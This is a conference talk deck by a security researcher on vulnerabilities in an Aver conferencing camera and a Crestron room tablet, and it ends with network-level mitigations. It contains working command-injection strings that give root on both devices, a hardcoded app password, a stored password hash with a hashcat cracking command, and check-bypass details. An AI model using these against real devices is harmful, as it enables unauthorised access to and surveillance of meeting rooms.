<!-- _class: title -->

# Mic Drop

## Hacking into Enterprise Audiovisual Hardware

<br>

**DEF CON Singapore**
Eugene Lim

spaceraccoon.dev · @spaceraccoon

---

<!-- _class: bio -->


# About Me

**Eugene "Spaceraccoon" Lim**
Security Researcher

- Vulnerability research - finding bugs that matter
- Web, mobile, hardware, firmware
- _"Why would you connect that to the internet???"_

spaceraccoon.dev · @spaceraccoonsec · GitHub: spaceraccoon

---

# The Forgotten Attack Surface

> Some organisations' most sensitive information is only ever discussed **in person.**



- Conference rooms, boardrooms, executive meeting spaces
- Ironically: **least-monitored**, most **insecurely-configured** hardware in the org
- Today: two devices, multiple critical vulnerabilities

---

# Agenda

- **🎥 Aver PTC320UV2**
  - Firmware analysis & CVE misclassification
  - Unauthenticated root RCE via command injection

- **📟 Crestron TSW-1060**
  - Crestron Terminal Protocol & hidden commands
  - Hardcoded credentials & local file disclosure
  - (Un)authenticated root RCE via command injection

- **🏢 Challenges and Next Steps**

---

<!-- _class: section-divider -->

# Aver PTC320UV2

---

# Aver PTC320UV2: Auto-Tracking Camera



- High-resolution, **auto-tracking** video conferencing camera
- Integrated into meeting room systems: Zoom Rooms, Teams Rooms
- Controlled via tablets, mobile apps, or web browser
- **Web management console** accessible over the network

---

# Prior Work: PTC310UV2 CVEs

<span class="cve">CVE-2025-45619</span> <span class="cve">CVE-2025-45620</span> - published by weedl



---

# Prior Work: PTC310UV2 CVEs

<span class="cve">CVE-2025-45619</span> <span class="cve">CVE-2025-45620</span> - published by weedl



---
# Prior Work: PTC310UV2 CVEs

<span class="cve">CVE-2025-45619</span> <span class="cve">CVE-2025-45620</span> - published by weedl

| Source | Description |
|---|---|
| CVE listing | Remote code execution via `SendAction` function |
| GitHub disclosure | Authentication bypass (client-side credential check) |

> `SendAction` is a **client-side** JS function. This is not RCE.

A good example of confusion in the disclosure process - researchers not always certain of root causes.

---

# Firmware Analysis

The `cgi-bin` binary handles all web API requests with hard-coded routes.

```c
iVar1 = strncmp(gRequestURI, "/action?", 8);
if (iVar1 == 0) {
    iVar1 = strncmp(param_2, "Get=", 4);
    if (iVar1 == 0) {
        pcVar2 = strstr(param_2, "Get=");
        local_2c = (byte *)(pcVar2 + 4);
        local_2c = (byte *)strtok_r((char *)local_2c, "&", &pcStack_251c);
        memset(local_1518, 0, 0x400);
        snprintf(local_1518, 0x3ff,
                 "/mnt/sky/webui/opt_GetData.sh %s 2>&1", local_2c);  // ← user input
        system_ctrl(local_1518, "/tmp/FIFO_CGI_TO_DISPATCH");
```

User-supplied `Get=` parameter passed **directly** to `snprintf` → `system_ctrl`. No sanitisation.

---

# `opt_GetData.sh` - The Shell Script

```bash
#!/bin/sh
dbus-send --session --print-reply \
    --dest=com.aver.ldn /ldn/Options \
    com.aver.ldn.OptionManager.GetData \
    string:$1
```

A simple configuration fetcher over D-Bus - but `$1` is **unquoted user input**.

> Classic command injection, even before reaching the shell script.

---

# Unauthenticated Root RCE

```bash
# No authentication required - single HTTP request
curl "http://<CAMERA_IP>/action?Get=acc;ls;"
```



- **No authentication** required
- Executes as **root**
- Not just an auth bypass - actual **remote code execution**

---

<!-- _class: section-divider -->

# Crestron TSW-1060

---

# Crestron TSW-1060: Room Automation Tablet



- PoE Android tablet for meeting room booking, AV control, smart displays
- Discontinued - available on the secondary market **for under $50**
- Active Home Assistant community (shoutout to `KazWolfe`!)
- First risk: **factory wipe doesn't fully wipe user files** - sensitive data from original owners

---

# Attack Surface



Each surface growing more vulnerable as the device reaches end-of-life.

---

# Crestron Terminal Protocol

A restricted console accessible over telnet, SSH, and port 41795.

```
TSW-1060>HELP ALL

8021XAUthenticate   Administrator   Enable/Disable 802.1x Authentication.
ADDBLOCKEDip        Administrator   Add an IP Address to the blocked list
...

TSW-1060>VERSION
TSW-1060 [v3.002.1061 (Tue Jun  4 16:32:15 EDT 2024), #885225CC]

TSW-1060>UUID ?
Error: Your user access prevents execution of this command.
       Contact your administrator.
```

Some commands locked behind a `crengsuperuser` factory/debug account.

---

# CVE-2018-13341: Deterministic Superuser Password

<span class="cve">CVE-2018-13341</span> - published 7 years ago, with a working Python script



> Who said CTFs weren't realistic?

---

# The "Fix" for CVE-2018-13341

```c
EthGetMacAddr(mac_bytes, 0);
ConvertMacAddressToString(mac_str, mac_bytes, fmt);
LocalConvertToUpper(mac_str);
iVar = GetEngDebugMode();
if ((iVar == 0) && strncmp(mac_str, "DE:AD:BE:EF:12:3", 16) != 0) {
    // FAIL: return "ERROR: Bad or Incomplete Command"
}
```

- All the **hardcoded crypto** is still present
- A **debug mode flag** bypasses the check entirely
- A MAC address of `DE:AD:BE:EF:12:3` also bypasses it

> A flag check is not a fix.

---

# Hidden Commands: AI-Assisted Ghidra Analysis



- `HELP ALL` returns an **incomplete list** - many "secret" commands buried in `a_console`
- Handler functions follow a consistent pattern with help strings as a guide
- Used **Claude Code + Ghidra scripts** for taint analysis - leaves a record of analysis scripts

> Initial Claude Code went in circles: it only searched `.rodata` for strings, missing those in `.data.rel.ro`. Had to manually correct.

---

# Handler Function Structure

```c
void cmd_setlockouttime(undefined4 param_1, undefined4 param_2,
                        byte *param_3, undefined4 param_4)
{
  uVar2 = AuthenticationGetEnabled();
  if (uVar2 == 0) {
    __s = "ERROR: Authentication is not on.\r\n";
  }
  else if ((param_3 == NULL) || (*param_3 == 0)) {
    // actual function body
    GetIpblkLockout(&local_134, ...);
    ...
  }
  else if (uVar2 == 0x3f) {
    // help string - extremely useful for understanding intent
    SendConsoleResponseToSymproc("SETLOCKOUTTIME [number]\r\n", ...);
    SendConsoleResponseToSymproc("\tnumber - hours to block...\r\n", ...);
  }
```

---

# HDCP2XLOAD: Hidden Command Injection

```c
void FUN_00063618(undefined4 param_1, undefined4 param_2,
                  char *param_3, undefined4 param_4)
{
  if (*param_3 == '-') {
    if (param_3[1] != 'c') {
      pcVar1 = "ERROR: this option is not supported\r\n";
      goto LAB_00063786;
    }
    pcVar1 = acStack_224;
    snprintf(pcVar1, 0x200, "@ske_upgrade@ %s", param_3);  // ← user input
    pFVar2 = (FILE *)popenCmd(pcVar1, &DAT_0007fbe8);
```

- Not present in `HELP` output
- Not present in console auto-complete
- Passes user input directly to `popenCmd`

---

# Root Shell via Hidden Command

```bash
TSW-1060> HDCP2XLOAD -c;whoami;
root
```



Command not listed, not autocompleted - security by obscurity only.

---

# Gingco Room Scheduler App

One of the default Android applications on the tablet - connects to a configured URL via WebView.



---

# Gingco Room Scheduler App

Accessing Gingco's settings requires pressing three fingers for a few seconds, triggering a password dialog.



---

# Hardcoded Password in APK

```xml
<!-- strings.xml inside Gingco APK -->
<string name="settings_password">gingco</string>
```

Default password hard-coded in `strings.xml`. No user configuration needed.

Once inside settings: configure any URL to load in the WebView.



---

# Reading the Password File

```
admin:Administrators,:crcU0xdkOqlGIcr3AeKxsgzaYc
```

Interesting-looking hash - time to reverse it.

Analysis of `libLinuxUtil.so` → `addUserPasswordToFile` function:



---

# Weak DES Password Hashing

```bash
# Reproducing the hash in bash
p='password'; h=''; i=0
while [ $i -lt ${#p} ]; do
    h+=$(openssl passwd -crypt -salt cr "${p:$i:7}")
    i=$((i+7))
done
echo "$h"
# → crcU0xdkOqlGIcr3AeKxsgzaYc
```

DES with a fixed `cr` salt - each 7-byte chunk hashed independently.

> A DES crypt hash with a known, fixed salt. This will crack instantly.

---

# Cracking with Hashcat

```shell
hashcat -m 1500 chunk1.txt -a 3 -1 '?l' '?1?1?1?1?1?1?1'

crcU0xdkOqlGI:passwor

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1500 (descrypt, DES (Unix), Traditional DES)
Time.Started.....: Fri Apr 17 13:21:40 2026 (2 secs)
Time.Estimated...: Fri Apr 17 13:21:42 2026 (0 secs)
```

**2 seconds** on a CPU-only run (M5 chip). GPU would be faster.

Each chunk cracked independently - longer passwords only add linear cost.

---

# Attack Chain: Phase 1 - Credential Theft



---

# Attack Chain: Phase 2 - Exploitation



---

# What's Possible from Root

From a root shell on a conference room tablet:

- **Network pivot** - jump into internal IT network via wired PoE connection
- **Persistence** - install backdoor, survive reboots
- **Surveillance** - access microphone, camera, screen via Android APIs
- **Lateral movement** - credentials often reused across AV systems

> The most sensitive conversations happen in these rooms.

---

<!-- _class: section-divider -->

# Challenges and Next Steps

---

# Why AV Hardware is Hard to Secure



Three structural problems that compound each other.

---

# Challenge 1: Patching is Strongly Discouraged

> "Avoid patches as far as possible, especially for discontinued devices, because they can break easily and are hard to debug."
> - r/crestron

- AV hardware runs **24/7** - downtime is unacceptable
- Patches can break integrations unexpectedly
- Hundreds of devices in one org → patching at scale is nearly impossible
- Discontinued devices like the TSW-1060 may never receive patches

---

# Challenge 2: Insecure by Default

> "Every hardening guide recommendation is a missed opportunity for a safer default."
> - Kelly Shortridge

Crestron publishes an extensive security hardening guide - but:

- If it requires manual steps, most deployments skip it
- Managed service providers focus on **making it work**, not securing it
- "Security hardening" as an afterthought is not security

---

# Challenge 3: Poor Visibility and Monitoring



- Bespoke systems - no standard EDR or monitoring agent support
- IT team/MSPs may not be cybersecurity-trained; AV is a secondary concern

---

# Additional Risks

| Risk | Example |
|---|---|
| **Supply chain** | Unmaintained apps with dangling remote resources |
| **Application sandboxing** | Gingco WebView reads arbitrary local files |
| **Trace data on resale** | Factory wipe doesn't clear user projects or FTP data |
| **Legacy crypto** | DES with fixed salt, RC4 with hardcoded key |
| **Physical access** | Ethernet ports behind wall plates, accessible to visitors |

---

<!-- _class: section-divider -->

# Conclusion

---

# Defence-in-Depth at the Network Level

The vulnerabilities are real but the mitigations aren't novel:

| Control | Mechanism |
|---|---|
| **Network isolation** | Segment AV devices from corp network |
| **MAC address whitelisting** | Block unknown devices automatically |
| **Zero internet egress** | Prevent AV hardware from phoning home or downloading malware |
| **Physical security** | Lock wall plates, cable closets, PoE switches |

> Software vulnerabilities aside - sometimes it's just a matter of unscrewing a few wall plates to reach an ethernet port.

---

# Takeaways

- **AV hardware is a real attack surface** - often overlooked because it "just works"
- **Vulnerability disclosure is messy** - even CVE listings can misclassify root causes
- **AI-assisted firmware analysis is effective** - but requires guidance and correction
- **Legacy and discontinued devices compound risk** - no patches, no monitoring, full exposure
- **Defence-in-depth is your best bet** - network segmentation and access control go a long way

---

<!-- _class: title -->

# Mic Drop

## Hacking into Enterprise Audiovisual Hardware

<br>

**DEF CON Singapore** · Eugene Lim

spaceraccoon.dev · @spaceraccoon

_Questions?_
